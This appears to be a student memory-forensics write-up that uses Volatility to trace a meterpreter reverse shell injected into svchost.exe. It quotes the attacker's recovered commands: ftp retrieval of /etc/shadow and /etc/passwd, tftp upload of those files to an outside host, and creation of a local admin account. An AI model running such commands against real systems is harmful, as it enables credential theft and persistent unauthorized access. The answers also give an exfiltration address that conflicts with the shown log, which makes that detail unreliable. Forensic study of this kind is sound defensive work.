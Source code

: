 # Writeup


Using plugins `cmdscan` and `consoles` we found evidence of an attacker trying to create a new user and add it to the local administrators group. The attacker also tried to exfiltrate the `shadow` and `passwd` files using `ftp` and `tftp` commands.

These commands were run by a child of `csrss.exe` (Pid 684), here is an extract of these commands (mix of `cmdscan` and `consoles`) :

```
**************************************************
CommandProcess: csrss.exe Pid: 684
CommandHistory: 0x10986f8 Application: cmd.exe Flags: Allocated, Reset
**************************************************
cd C:\
mkdir system32
cd system32
ftp 192.168.174.128

Connected to 192.168.174.128.                                                   
220 ProFTPD 1.3.4a Server (Debian) [::ffff:192.168.174.128]                     
User (192.168.174.128:(none)): root                                             
331 Password required for root                                                  
Password:                                                                       
230 User root logged in                                                         
ftp> get /etc/shadow                                                            
200 PORT command successful                                                     
150 Opening ASCII mode data connection for /etc/shadow (866 bytes)              
226 Transfer complete                                                           
ftp: 891 bytes received in 0.02Seconds 55.69Kbytes/sec.                         
ftp> get /etc/passwd                                                            
200 PORT command successful                                                     
150 Opening ASCII mode data connection for /etc/passwd (1033 bytes)             
226 Transfer complete                                                           
ftp: 1058 bytes received in 0.00Seconds 1058000.00Kbytes/sec.                                                                               
ftp> quit                                                                       
221 Goodbye.    

tftp 192.168.1.104 put shadow
Transfer successful: 891 bytes in 1 second, 891 bytes/s

tftp 192.168.1.104 put passwd
Transfer successful: 1058 bytes in 1 second, 1058 bytes/s   

net user admin * /add
Type a password for the user:                                                   
Retype the password to confirm:                                                 
The command completed successfully.

net localgroup Administrators admin /add
The command completed successfully.  
```

Using `pstree` we can see that a `cmd.exe` is running as a child of `svchost.exe` (Pid 1136) which is a child of our `csrss.exe` (Pid 684).

```
Name                                  Pid   PPid   Thds   Hnds
----------------------------------- ------ ------ ------ ------
.. 0x89953020:csrss.exe                684    620     11    409
.. 0x8969f020:winlogon.exe             708    620     22    522
... 0x8998b680:wpabaln.exe            1428    708      1     58
... 0x8994dca8:services.exe            752    708     16    268
.... 0x895213c0:svchost.exe            132    752      6     88
.... 0x8989a980:vmtoolsd.exe           272    752      8    268
.... 0x8994f458:vmacthlp.exe           924    752      1     25
.... 0x899a1a00:svchost.exe           1184    752      6     70
.... 0x89b60998:svchost.exe           1284    752     14    195
.... 0x896a1b10:svchost.exe            936    752     19    202
.... 0x895e9618:svchost.exe            996    752     10    238
.... 0x89679608:alg.exe               1768    752      6    101
.... 0x89a54650:spoolsv.exe           1644    752     14    145
.... 0x89a90da0:svchost.exe           1136    752     68   4423
..... 0x89985c08:wscntfy.exe          1588   1136      1     28
..... 0x8950a020:cmd.exe               440   1136      1     33
..... 0x8992fb08:wmiadap.exe           364   1136      5    172

```

So now the `svchost.exe` (Pid 1136) is suspicious, let's have a look at it.

Looking at the network connections using `sockets` we can see that the `svchost.exe` (Pid 1136) is actively listening on all interfaces on port 4444.

```

Offset(V)       PID   Port  Proto Protocol        Address        
---------- -------- ------ ------ --------------- ---------------
0x896b87c0     1136    123     17 UDP             192.168.174.148
0x896e36d8     1136    123     17 UDP             127.0.0.1      
0x898ad978     1136   4444      6 TCP             0.0.0.0        

```

Knowing that `4444` is a common port used by `msf` (metasploit) we can assume that this process is a even more malicious.

From now we can assume that it is most likely a reverse shell, so we can use `connections` to see if there is any active connection...

Here you go...

```
Offset(V)  Local Address          Remote Address       Pid
---------- ---------------------- -------------------- ---
0x8966bd30 192.168.174.148:4444   192.168.174.1:58719  1136

````

So we can assume that the attacker is using a reverse shell to connect to the machine.

The attacker is most likely using `msf` (metasploit) to get a reverse shell, so we can assume that the attacker is using a `meterpreter` shell.

After quick research about how `meterpreter` works, we found out that "Meterpreter is an advanced, dynamically extensible payload that uses in-memory DLL injection stagers and is extended over the network at runtime." [https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/)

Let's use `malfind` to explore the potential strange VADS in here.

Hooray ! We found something interesting...

```
Process: svchost.exe Pid: 1136 Address: 0x2df0000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: CommitCharge: 109, MemCommit: 1, PrivateMemory: 1, Protection: 6

4d 5a e8 00 00 00 00 5b 52 45 55 89 e5 81 c3 89   MZ.....[REU.....
0e 00 00 ff d3 89 c3 57 68 04 00 00 00 50 ff d0   .......Wh....P..
68 e0 1d 2a 0a 68 05 00 00 00 50 ff d3 00 00 00   h..*.h....P.....
00 00 00 00 00 00 00 00 00 00 00 00 f0 00 00 00   ................

```

Based on the criteria seen in class :

* Full commited page \checkmark
* RWX page \checkmark
* Private memory \checkmark
* No mapped file (VadS) \checkmark
* MZ header \checkmark

So `svchost.exe` (Pid 1136) is no more a suspicious process, it is most likely a malicious one.

We dumped the injected exectuable at `0x2df0000`, we ran `strings` on it and we found out that it is really a `meterpreter` shell :

here's an extract of some strings that "proves" that it is a `meterpreter` shell :

* `ReflectiveLoader` -> as described in [https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) the stager uses ReflectiveLoader to load the DLL into memory.
* ImpersonateLoggedOnUser  -> this is a typical function used by `meterpreter` to impersonate the user.

In short, the attacker used `metasploit` to get a `meterpreter` reverse shell, the process where it has been injected is `svchost.exe` (Pid 1136).

The attacker then ran a `cmd` from there, he connected himself as root via `ftp` to a remote machine (192.168.174.128) where he downloaded `shadow` and `passwd` to the infected machine (192.168.174.148). He then used `tftp` to exfiltrate the files to his machine (192.168.1.104). 

He then created an `admin` account to achieve persistence on the machine (he can now on connect himself with the `admin` account)

# Questions

## What tool was used to compromise the system?

The attacker used `metasploit` to get a `meterpreter` reverse shell on the victim machine (192.168.174.148)

## What was the IP address of the attacker's machine?

The attacker's machine IP address is `192.168.174.1` (the attacker exfiltrate data to this machine + the attacker connected himself to the victim machine via this IP address)

## What directory was created to store the files before exfiltration?

The attacker created a directory called `system32` in the `C:\` directory.

## Where was data exfiltrated from?

The attacker exfiltrated data from a Debian `ftp` server running on (192.168.174.128)

## How was exfiltration performed?
From the infected machine, he connected himself to the `ftp` server via `ftp` and downloaded the `shadow` and `passwd` files to the infected machine. He then used `tftp` to exfiltrate the files to his machine (192.168.174.1)

## How was persistence maintained?

The attacker created an `admin` account to achieve persistence on the machine (he can now on connect himself with the `admin` account)